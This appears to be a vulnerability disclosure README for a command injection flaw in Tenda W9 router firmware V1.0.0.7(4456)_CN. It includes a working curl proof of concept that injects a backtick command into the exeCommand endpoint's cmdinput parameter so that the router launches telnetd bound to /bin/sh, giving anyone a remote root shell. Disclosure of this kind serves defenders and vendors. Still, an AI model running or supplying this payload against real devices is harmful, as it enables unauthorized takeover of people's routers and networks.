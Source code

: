 # Tenda W9 Command Injection

**Vender** ：Tenda

**Firmware version**:V1.0.0.7(4456)_CN

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/



## POC

An issue was discovered in Tenda W9 V1.0.0.7(4456)_CN devices. An HTTP request parameter is used in command string construction within the handler function of the formexeCommand route. This could lead to Command Injection via Shell Metacharacters.

![1](./1.jpg)

![2](./2.jpg)



When we send packets, the router will be shell

```
curl -i -X POST http://192.168.0.254/goform/exeCommand -d cmdinput='ping+`telnetd -p 2225 -l /bin/sh`' --referer "Referer: http://192.168.0.254/system_checktool.asp" --cookie "w9v1_user=admin"

```





![poc](./poc.jpg)

